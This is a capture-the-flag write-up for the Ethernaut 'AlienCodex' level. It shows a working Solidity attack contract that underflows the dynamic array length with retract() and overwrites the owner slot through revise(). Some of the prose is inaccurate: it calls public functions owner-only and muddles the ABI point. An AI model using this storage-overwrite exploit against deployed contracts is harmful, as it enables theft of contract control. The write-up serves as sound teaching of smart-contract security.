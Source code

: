 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel19.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function makeContact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

Challenge's message: 

> You've uncovered an Alien contract. Claim ownership to complete the level.


The AlienCodex is a solidity smart contract that serves as a simple decentralized data storage system. It allows users to record and manage data (represented as bytes32 values) in a publicly accessible array called **codex**. The contract also includes a feature to enforce access control through a modifier named **contacted**. This is a custom modifier used to ensure that certain functions can only be executed when contact has been made. It uses the assert statement to check the value of the contact variable.

Then, the **makeContact()** function allows any user to establish contact with the contract. It sets the contact variable to true, indicating that the user has made contact with the contract. **Only users who have made contact can perform certain operations on the codex**.

After then, there is an external function called **record()** that allows the contract owner to record a new entry in the codex array. The `_content` parameter is the content to be recorded, provided in the form of a bytes32 value.

Also, in the **retract()** external function, it allows the contract owner to retract the last entry in the codex array. This function can only be called after contact has been established.

Finally, we have **revise()** function that allows the contract owner to revise an existing entry in the codex array. The `_content` parameter is the updated content to be recorded, and the `i` parameter indicates the index of the entry to be revised. This function can only be called after contact has been established.

When working with arrays in Solidity, it's crucial to be cautious about the size of the array in the contract's storage. Failure to implement this properly can result in potential security risks, as is the case with this particular contract.


## Dynamic Array Underflow

Dynamic Array Underflow is a vulnerability that can occur in smart contracts written in Solidity. It is a form of "underflow" vulnerability, where the index used to access an element in the dynamic array becomes negative or goes out of bounds due to incorrect calculations or manipulations in the contract code. Thus, the attacker can **get control array's storage in the contract and change the other storage's values what he want**.


In the **retract()** function, there is the `codex.length--;` code. Because of the contract version, there **should be an overflow check** but it is not. So, this code triggers the underflow vulnerability.

## First Underhanded Solidity Contest

The Underhanded Solidity Contest is a specialized programming contest that aims to challenge developers to write Solidity smart contracts that are intentionally deceptive or maliciously crafted to be difficult to detect as harmful. The primary goal of the contest is to identify and expose potential vulnerabilities or pitfalls in smart contract development that might be exploited by malicious actors in real-world scenarios.

In this article, we are talking about one of this scenarios. 

In the context of Ethereum and smart contracts, the ABI is a standard interface that defines how to interact with smart contracts. It acts as a bridge between higher-level programming languages and the low-level Ethereum Virtual Machine (EVM) bytecode. The ABI specifies the rules and conventions for encoding and decoding function calls and data when interacting with smart contracts. It allows external applications, such as web3 libraries, wallets, and other contracts, to communicate with smart contracts on the Ethereum blockchain.

ABI contains two main components:

- **Function Signatures** : Function signatures are used to uniquely identify functions within a smart contract. They consist of the function name and its parameter types, which are hashed using the Keccak-256 (SHA-3) hash function to create a 4-byte function selector.
- **Data Encoding Rules** : The ABI defines how data should be encoded into a format that can be understood by the EVM when making function calls.


On the other hand, sometimes this feautures are not quit pretty. For example, the **ABI decoder does not check for overflows**. For this reason, it can **help the attacker to exploit some underflows** vulnerability. Let me explain this with dynamic array underflow example. 

Consider that we have two dynamic arrays which are `uint a[]` and `uint b[]`. And, let's look at how the ABI works with these arrays.

- `a.length == b.length` is checked for overflows, but it **is not check** the `a.length == NO_OF_A_LENGTH` condition.

The actual problem is that b.length is assumed to equal NO_OF_A_LENGTH but this assumption is not checked anywhere, the overflow only helps in executing the exploit.


 

# Subverting

For passing this challenge, we must get ownership of the contract. That's why, we should know the owner's storage slot in the contract before exploiting the dynamic array underflow vulnerability. When you look at the ABI of the contract, we can see that the Ownable contract's variables are in. In this case, we can reach the owner's slot number from the contract's storage with the `web3.eth.getStorageAt()` method. If you don't know about this method, you can navigate [this website.](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

```shell
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```
```shell
await web3.eth.getStorageAt(contract.address, 0, console.log)
'0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
```

As you can see, the owner variable is stored along with the boolean type of the contact variable in the first slot. The reason for compressing these values into one slot is to optimize gas usage and save space in the contract. 

The last thing before pass on to the attack contract is calculate index number when we access the array at slot 0 and update the value of owner with our own address. Here is our brainful:

```solidity
uint i = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
```

We used `keccak256(abi.encode(1)` code to directly get in contact with contract's ABI for manipulate the slot's value with dynamic array underflow mechanism. Now, let's look at attack contract.

```solidity
// Target Contract Address -> 0x90Ff4F63Db3919667BF2B3FD78Bd63654a3921E6

pragma solidity ^0.5.0;

import './AlienCodex.sol';

contract Attack{

    AlienCodex target;

    constructor(address _target)public{
        target = AlienCodex(_target);
    }

    function attack()external{
        uint i = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        target.makeContact();
        target.retract();
        target.revise(i, bytes32(uint(uint160(msg.sender))));
    }   
}
```

Basically, we calculated the index and set the contact variable as true. Then, the array will be underflow and update the value of owner with our own address. Let's complete!

Deploy the contract and check the owner of the contract. See in [etherscan.](https://sepolia.etherscan.io/tx/0x42f2d3f4bceefa3c9c5b5b6b6fffd29f7ca1c977a713fe80fbf522d07c9883c7)

```shell
await contract.owner()
'0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
```

After calling attack function, check the owner again. And, the mission is completed. See in [etherscan.](https://sepolia.etherscan.io/tx/0x13bb7ac279736b86cd72e4b78e7f90a351fec8cd117722ef26ef833fe93621f0)

```solidity
await contract.owner()
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```
```shell
player
'0x9C84d84b46971Faf8B480aB116b7f5391D630fA1'
```

Ethernaut's message:

> This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload. Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage. Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)


**_by wasny0ps_**
